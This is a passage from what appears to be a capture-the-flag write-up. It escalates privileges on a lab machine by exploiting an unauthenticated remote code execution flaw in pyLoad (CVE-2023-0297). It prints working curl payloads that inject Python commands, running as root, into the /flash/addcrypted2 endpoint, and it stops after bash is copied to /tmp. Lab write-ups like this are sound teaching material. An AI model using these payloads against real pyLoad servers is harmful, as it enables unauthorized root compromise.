 ![pyLoad](/assets/images/2023/10/PC/pyLoad.png "pyLoad")

It was an instance of [pyLoad](https://pyload.net/), a download manager. I tried using the credentials I found earlier, they failed.

I checked for known vulnerabilities and found an [unauthenticated Remote Code Execution](https://github.com/bAuh0lz/CVE-2023-0297_Pre-auth_RCE_in_pyLoad).


I took the example request and ran it on the server to see if it worked.

```bash
sau@pc:/opt/app$ curl -i -s -k -X $'POST' \
    --data-binary $'jk=pyimport%20os;os.system(\"touch%20/tmp/pwnd\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' \
    $'http://localhost:8000/flash/addcrypted2'

sau@pc:/opt/app$ ls -l /tmp/pwnd
-rw-r--r-- 1 root root 0 Jul  2 17:38 /tmp/pwnd
```

It did! And the file was owned by root. I modified the example to copy bash in `/tmp` and set the suid bit on it.

```bash
sau@pc:/opt/app$ curl -i -s -k -X $'POST' \
    --data-binary $'jk=pyimport%20os;os.system(\"cp%20/bin/bash%20/tmp/\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' \
    $'http://localhost:8000/flash/addcrypted2'

HTTP/1.1 500 INTERNAL SERVER ERROR
Content-Type: text/html; charset=utf-8
Content-Length: 21
Access-Control-Max-Age: 1800
Access-Control-Allow-Origin: *
Access-Control-Allow-Methods: OPTIONS, GET, POST
Vary: Accept-Encoding
Date: Sun, 02 Jul 2023 17:40:03 GMT
Server: Cheroot/8.6.0

Could not decrypt key

sau@pc:/opt/app$ ls -l /tmp/bash
-rwxr-xr-x 1 root root 1183448 Jul  2 17:40 /tmp/bash

```